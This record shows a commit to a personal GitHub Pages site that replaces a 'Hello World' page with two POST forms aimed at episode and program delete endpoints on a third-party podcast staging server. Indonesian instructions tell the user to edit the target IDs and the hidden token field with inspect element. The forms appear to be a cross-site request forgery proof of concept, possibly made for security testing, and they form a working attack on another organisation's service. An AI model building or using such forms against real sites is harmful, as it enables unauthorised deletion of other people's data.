

Before and after one commit to tegarplus/tegarplus.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-884 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add Dummy Form

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,16 @@
 <!DOCTYPE html>
-<html>
 <body>
-<h1>Hello World</h1>
-<p>I'm hosted with GitHub Pages.</p>
+    <p>
+        Sebelum submit lakukan inspect element dan ganti &lt; episode-id &gt; atau &lt; program-url &gt; di form action dengan value yang sesuai.<br>
+        Input type hidden juga bisa diganti valuenya.
+    </p>
+    <form method="POST" action="https://podcast-staging.kaskus.co.id/episode/delete/<episode-id>">
+        <input type="hidden" name="token" value="">
+        <button>Delete Episode</button>
+    </form>
+    <br>
+    <form method="POST" action="https://podcast-staging.kaskus.co.id/program/delete/<program-url>">
+        <input type="hidden" name="token" value="">
+        <button>Delete Program</button>
+    </form>
 </body>
-</html>
```
